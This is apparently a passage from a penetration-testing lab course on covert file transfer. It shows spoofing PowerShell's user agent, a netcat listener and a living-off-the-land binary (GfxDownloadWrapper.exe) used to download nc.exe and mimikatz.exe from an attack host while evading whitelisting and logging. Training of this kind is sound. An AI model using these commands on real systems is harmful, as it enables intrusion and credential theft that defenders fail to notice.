 ## Evading Detection

#### Changing User Agent

If diligent administrators or defenders have blacklisted certain User Agents, `Invoke-WebRequest` contains a `UserAgent` parameter. This allows for changing the default user agent to one emulating browsers like Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, setting a User Agent to emulate Chrome may make the request appear legitimate if Chrome is commonly used internally.

#### Listing User Agents

```
evading_detection
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0 Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0 Safari/533.16
```

#### Invoking `Invoke-WebRequest` with a Chrome User Agent

**Request Example:**

```
Request with Chrome User Agent
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

**Listening on Attack Host:**

```
evading_detection
0xs5@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders. In these cases, an option is to use a "LOLBIN" (Living Off the Land Binary), also known as "misplaced trust binaries."

#### Example: GfxDownloadWrapper.exe

The Intel Graphics Driver for Windows 10 (`GfxDownloadWrapper.exe`), installed on some systems, contains functionality to periodically download configuration files. This functionality can be leveraged as follows:

**Transferring File with GfxDownloadWrapper.exe:**

```
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Such binaries may bypass application whitelisting and avoid alerting. Other binaries can also be found via the LOLBAS project for Windows and the GTFOBins project for Linux. These resources provide detailed information on commonly installed binaries suitable for file transfers.

### Closing Thoughts

There are numerous ways to transfer files between an attack host and Windows or Linux systems. Practicing these methods in various environments helps to:

- Build familiarity with tools and techniques.
    
- Save time during assessments by knowing multiple file transfer options.
    

When working on a target or lab, experiment with LOLBins or GTFOBins you haven't used before to accomplish file transfer goals. Regularly revisiting these methods ensures preparedness for diverse scenarios.

Also, take advantage of web shells or other footholds by testing alternative file transfer methods such as:

- Certutil for downloading files.
    
- Impacket SMB server.
    
- Python web servers with upload capabilities.
    

With practice and creativity, you'll become adept at transferring files covertly and effectively during engagements.